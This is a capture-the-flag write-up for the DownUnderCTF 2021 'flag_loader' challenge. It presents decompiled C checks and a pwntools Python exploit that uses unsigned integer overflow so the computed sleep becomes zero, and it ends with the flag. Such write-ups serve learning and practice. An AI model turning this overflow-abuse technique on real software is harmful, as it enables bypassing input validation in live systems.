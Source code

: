 #### Challenge:

What more could you ask for than a program that loads the flag for you? Just answer a few simple questions and the flag is yours! [flag_loader](./flag_loader ":ignore")

`nc pwn-2021.duc.tf 31919`

---

#### Solution:

- decompiling reveals that we need to pass 3 checks and then we wait for the flag for `X` seconds based on the result of the check functions

    ```c
    void main()
    {
    char flag[264];
    int iVar1 = check1();
    int iVar2 = check2();
    int iVar3 = check3();

    puts("You\'ve passed all the checks! Please be patient as the flag loads.");
    puts("Loading flag... (this may or may not take a while)");

    sleep(iVar1 * iVar2 * iVar3);

    f = fopen("flag.txt","r");
    fgets(flag,0xff,f);
    printf("%s",flag);
    }
    ```
  - 1. check just reads `5` chars and compares them against static data `DUCTF`
  - 2. check requires us to solve equation `x + y = (rand() & 0xffff)` with few additional conditions, also resulting sleep depends on supplied values
    ```c
    uint check2(void)
    {
    long in_FS_OFFSET;
    uint local_1c;
    uint local_18;
    uint local_14;
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_14 = rand();
    local_14 = local_14 & 0xffff;
    printf("Solve this: x + y = %d\n",(ulong)local_14);
    __isoc99_scanf("%u %u",&local_1c,&local_18);
    if ((((local_1c == 0) || (local_18 == 0)) || (local_1c <= local_14)) || (local_18 <= local_14)) {
        die();
    }
    if ((local_1c + local_18 != local_14) || ((local_18 * local_1c & 0xffff) < 0x3c)) {
        die();
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    return local_18 * local_1c & 0xffff;
    }
    ```
  - 3. check requires us to solve equation `x1 + x2 + x3 + x4 + x5 = (rand() & 0xffff)` with few additional conditions, also resulting sleep depends on supplied values
    ```c
    uint check3(void)
    {
    long in_FS_OFFSET;
    uint local_28;
    uint local_24;
    uint local_20;
    uint local_1c;
    uint local_18;
    uint local_14;
    long local_10;
    
    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_14 = rand();
    local_14 = local_14 & 0xffff;
    printf("Now solve this: x1 + x2 + x3 + x4 + x5 = %d\n",(ulong)local_14);
    __isoc99_scanf("%u %u %u %u %u",&local_28,&local_24,&local_20,&local_1c,&local_18);
    if ((((local_28 == 0) || (local_24 == 0)) || (local_20 == 0)) ||
        ((local_1c == 0 || (local_18 == 0)))) {
        die();
    }
    if (((local_24 <= local_28) || (local_20 <= local_24)) ||
        ((local_1c <= local_20 || (local_18 <= local_1c)))) {
        die();
    }
    if ((local_28 + local_24 + local_20 + local_1c + local_18 != local_14) ||
        (((local_18 - local_1c) * (local_20 - local_24) & 0xffff) < 0x3c)) {
        die();
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    return (local_18 - local_1c) * (local_20 - local_24) & 0xffff;
    }
    ```
  - 4. while solving these equation we need to provide the solutions in a way that `result1 * result2 * result3` is ideally zero as this will delay retrieval of the flag

```python
#!/usr/bin/env python3
from pwn import *
import urllib.parse
import base64
import codecs

context.log_level = 'error'

r = remote('pwn-2021.duc.tf', 31919)

# Check 1 ###########################################################

print(r.recvuntil(b"letters:").decode('utf-8').strip())
r.sendline(b"\x44\x55\x43\xab\x47")

# Check 2 ###########################################################

print(r.recvuntil(b"= ").decode('utf-8').strip(), end='')
val = r.recvuntil(b"\n").decode('utf-8').strip()
print(val)

c2 = 0
# Finds solution so that multiplication fo result is zero thus waiting for 0s for flag
for c1 in range(0, 4294967296):
    x = (4294967295 - c1)
    y = (int(val) + 1 + c1)
    offset = (x *  y  & 0xffff)
    if offset > 60 and offset > 10000 and 134217728 % offset == 0:
        c2 = int(134217728 / offset)
        r.sendline(str(x).encode('utf-8'))
        r.sendline(str(y).encode('utf-8'))
        break

# Check 3 ###########################################################

print(r.recvuntil(b"= ").decode('utf-8').strip(), end='')
val = r.recvuntil(b"\n").decode('utf-8').strip()
print(val)

c2 = c2 - 60
xx = [
    (int(val) + 1 - 36 - c2), int(1073741805), int(1073741806), int(1073741830), int(1073741890 + c2),
]
for v in xx:
    r.sendline(str(v).encode('utf-8'))

r.interactive()
```

---

<details><summary>FLAG:</summary>

```
DUCTF{y0u_sur3_kn0w_y0ur_int3gr4l_d4t4_typ3s!}
```

</details>
<br/>
